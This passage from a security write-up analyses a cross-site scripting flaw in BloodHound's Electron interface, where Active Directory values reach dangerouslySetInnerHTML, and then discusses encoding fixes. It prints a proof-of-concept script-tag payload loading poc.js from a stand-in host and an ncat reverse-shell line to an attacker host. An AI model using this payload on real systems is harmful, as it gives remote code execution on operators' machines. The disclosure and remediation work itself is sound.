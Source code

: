 #### [`HelpModal.jsx`](https://github.com/BloodHoundAD/BloodHound/blob/a7ea5363870d925bc31d3a441a361f38b0aadd0b/src/components/Modals/HelpModal.jsx#L228)
```javascript
} else if (edge.label === 'SQLAdmin') {
  formatted = `The user ${sourceName} is a SQL admin on the computer ${targetName}.

  There is at least one MSSQL instance running on ${targetName} where the user ${sourceName} is the account configured to run the SQL Server instance. The typical configuration for MSSQL ... removed
```

Based on my usage and understanding of the tool, and as the help dialog helpfully points out, these values are based on data collected by the ingestor script from Active Directory (i.e., from an 'untrusted' source), and therefore "attacker"-controlled (note the ironic inversion of 'attacker' in this context). This confirms the exploitability of our candidate point; attacker-controlled content is indeed passed to `dangerouslySetInnerHTML`. All an attacker needs to do is plant malicious values (like a GPO in Fab's demonstration), with the following name:

```html
aaaaaa<SCRIPT SRC="http://example.com/poc.js">
```

Where `poc.js` contains:

```javascript
const { spawn } = require('child_process');
spawn('ncat', ['-e', '/bin/bash', '<attacker host>', '<some port>']);
```

Since the GPO name is not properly encoded, it will be rendered by the DOM as HTML, and Electron will parse the `<script>` tag and dutifully retrieve and execute the context of `poc.js`. As discussed before, since the NodeJS APIs are enabled, this attacker-controlled JavaScript can simply spawn a Bash child process and execute arbitrary native code on the machine.

A reasonable scenario for this exploit would be a blue team hiding malicious values in their AD deployment, waiting for the red team to run Bloodhound, and subsequently exploiting the red team operator's machine. From the opposite side, a red team operator in a position to influence the data collected by Bloodhound (but with otherwise limited access to AD) could exploit this in the traditional direction too.

The most comprehensive fix for this vulnerability would be to re-write the functionality such that `dangerouslySetInnerHTML` is not needed. However, from a practical perspective, a lot of code would need to be refactored. A short term and effective fix is to HTML encode the attacker-controlled variables. By HTML encoding these values, we can ensure these strings are never interpreted by the browser as actual HTML, and can support arbitrary characters. The prior payload: `aaaaaa<SCRIPT SRC="http://example.com/poc.js">` will be encoded as `aaaaaa&lt;SCRIPT SRC="http://example.com/poc.js"&gt;` and will be displayed as `aaaaaa<SCRIPT SRC="http://example.com/poc.js">` but not interpreted as HTML. So is preventing cross-site scripting a simple matter of HTML encoding attacker-controlled values? Unfortunately no.

In another area of the application the [Mustache](https://mustache.github.io/) template library is used to render tool tips. The Mustache library HTML encodes by default, another potential fix for the prior vulnerability would be to switch from string interpolation to Mustache templates. However, as we discussed the proper fix is _contextual encoding_, not blanket HTML encoding. HTML encoding will prevent XSS in an HTML context, but when used outside of an HTML context it will fail, or only coincidentally prevent XSS.

